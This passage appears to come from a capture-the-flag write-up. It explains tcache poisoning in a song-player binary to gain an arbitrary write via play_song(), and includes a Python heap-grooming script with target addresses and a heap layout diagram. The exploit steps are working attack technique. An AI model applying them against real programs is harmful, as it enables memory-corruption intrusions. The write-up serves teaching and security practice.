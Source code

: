 If we use an overflow of a "Godzilla" freed chunk to put an address of our choosing in the "Godzilla"-sized tcache  (0x310), we can request this chunk using our new read from STDIN by giving a file size that's the same as "Godzilla" (767 bytes). And even better, because this time we control the input (and `song_len` is 767, not 0 ), __`play_song()` will read 767 bytes from STDIN into the address we chose, giving us an arbitrary write__. 

**We can then point this back into the `songs` array in the `.bss` to overwrite multiple file descriptor fields with 0, giving us the ability to get as many arbitrary writes as we need.**

### Laying out the heap
In order to do this we need to organize our heap so that song #44's chunk (`chunk A`) be on top of a freed chunk of 0x20 followed by a freed chunk of 0x310 (the size of a "Godzilla" chunk).

Then we construct a payload that overflows song #44's chunk `chunk A` and overwrites:
1. the 0x20 chunk with a pointer to `songs[0].fd`
2. the 0x310 chunk with a pointer back into to the `songs` array. 

We can do this by controlling the order that chunks get initially allocated and freed. 

I also padded the tcache bins with some extra chunks because it kept crashing. There's probably a solution that would require fewer extra allocations, but it doesn't make a difference in this exploit to play a few extra songs, so who cares. 

 

```python 

""" Import the same songs as before """

# Allocate our main chunks 
play_song("11") # A: 0x20 chunk, this will get reused for the song #44 chunk
play_song("12") # B: 0x20 chunk, overwritten with ptr to 0x404078 
play_song("21") # C: 0x310 chunk, overwritten with ptr to 0x4040c8 (address of `songs[1].lyrics`

# Allocate some chunks to provide buffer in the tcache
play_song("22") # D: 0x310 chunk 
play_song("13") # E: 0x20 chunk
play_song("23") # F: 0x310 chunk

# Fill the tcache bin for 0x20
remove_song("13") # E
remove_song("12") # B
remove_song("11") # A

# Fill the tcache bin for 0x310
remove_song("23") # F
remove_song("22") # D
remove_song("21") # C

```
 Our heap now looks like:

```
+---------------------+      
|  A: song #11 (FREE) | 0x20
+---------------------+  
|  B: song #12 (FREE) | 0x20
+---------------------+ 
|  C: song #21 (FREE) | 0x310
+---------------------+ 
|  D: song #22 (FREE) | 0x310
+---------------------+ 
|  E: song #13 (FREE) | 0x20
+---------------------+ 
|  F: song #23 (FREE) | 0x310
+---------------------+ 

```